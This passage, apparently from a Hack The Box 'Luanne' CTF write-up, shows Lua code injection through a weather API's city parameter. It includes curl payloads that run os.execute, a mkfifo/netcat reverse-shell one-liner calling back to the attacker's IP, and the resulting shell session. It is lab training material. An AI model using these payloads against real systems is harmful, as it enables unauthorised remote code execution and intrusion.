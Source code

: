 I get a Lua error. I searched google and found many ways how Lua outputs strings:

`r:puts(output) or ngx.say(output) or cgilua.put(output)`. 

Let's try to inject comments:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ curl -s "http://10.10.10.218/weather/forecast?city=')+--"
{"code": 500,"error": "unknown city:
```

As you see, the rest of the error message was commented out. With this in mind, I can try to execute a command:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ curl -s "http://10.10.10.218/weather/forecast?city=')+os.execute('id')+--"
{"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
```

That worked, but I'll change the curl command so that it is able to handle more complex requests:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$  curl -G --data-urlencode "city=') os.execute('id') --" 'http://10.10.10.218/weather/forecast' -s 
{"code": 500,"error": "unknown city: uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
```

We should be able to create a reverse shell using this method.

## Low Priv Shell

---

Let's create a shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ curl -G --data-urlencode "city=') os.execute('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 443 >/tmp/f') --" 'http://10.10.10.218/weather/forecast' -s
```

Let's look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/luanne]
└─$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.218] 65147
sh: can't access tty; job control turned off
$ ls -la
total 20
drwxr-xr-x   2 root  wheel  512 Nov 25  2020 .
drwxr-xr-x  24 root  wheel  512 Nov 24  2020 ..
-rw-r--r--   1 root  wheel   47 Sep 16  2020 .htpasswd
-rw-r--r--   1 root  wheel  386 Sep 17  2020 index.html
-rw-r--r--   1 root  wheel   78 Nov 25  2020 robots.txt
$ whoami
_httpd
```
